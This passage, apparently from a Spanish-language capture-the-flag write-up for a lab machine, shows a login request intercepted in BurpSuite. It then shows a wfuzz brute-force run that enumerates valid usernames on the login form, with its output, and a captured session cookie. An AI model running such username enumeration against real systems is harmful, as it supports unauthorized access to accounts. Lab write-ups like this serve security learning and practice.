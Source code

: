 Intercepto la petición con ```BurpSuite``` para ver como se tramita

```null
POST /login HTTP/1.1
Host: 10.10.11.160:5000
Content-Length: 28
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.160:5000
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.160:5000/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

username=rubbx&password=test
```

Con ```wfuzz``` aplico fuerza bruta para encontrar usuarios

```null
wfuzz -c -t 200 --ss="Invalid login" -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -d 'username=FUZZ&password=test' http://10.10.11.160:5000/login
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.160:5000/login
Total requests: 10177

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                         
=====================================================================

000001208:   200        68 L     110 W      2026 Ch     "blue"                                                                                                                                          

Total time: 0
Processed Requests: 10177
Filtered Requests: 10176
Requests/sec.: 0
```

Por tanto ```blue``` es un usuario registrado que me puede servir en un futuro. La cookie que se settea está formado por un JWT

```null
GET /dashboard HTTP/1.1
Host: 10.10.11.160:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.160:5000/VIP
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoicnViYngifQ.ZSf3vA.NhlJpydkmUV99nayMPhu5rMus90
Connection: close
```